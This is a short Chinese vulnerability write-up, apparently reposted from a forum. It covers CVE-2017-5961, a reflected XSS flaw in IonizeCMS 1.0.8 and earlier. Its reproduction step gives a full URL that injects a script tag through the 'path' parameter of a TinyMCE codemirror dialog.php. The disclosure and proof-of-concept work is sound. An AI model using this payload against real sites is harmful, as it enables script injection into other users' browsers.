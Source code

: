# （CVE-2017-5961）IonizeCMS xss

> 原文：[https://www.zhihuifly.com/t/topic/2977](https://www.zhihuifly.com/t/topic/2977)

# （CVE-2017-5961）IonizeCMS xss

## 一、漏洞简介

该漏洞源于在‘path’HTTP GET参数传递到‘ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php’URL时，程序没有充分地过滤此参数中用户提交的数据。攻击者可利用该漏洞在浏览器中执行任意的HTML和脚本代码。

## 二、漏洞影响

<=Ionize 1.0.8

## 三、复现过程

```
http://0-sec.org/testcmsofgithub/ionize-master/ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php?path=%22%3E%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3Cscript%20%22 
```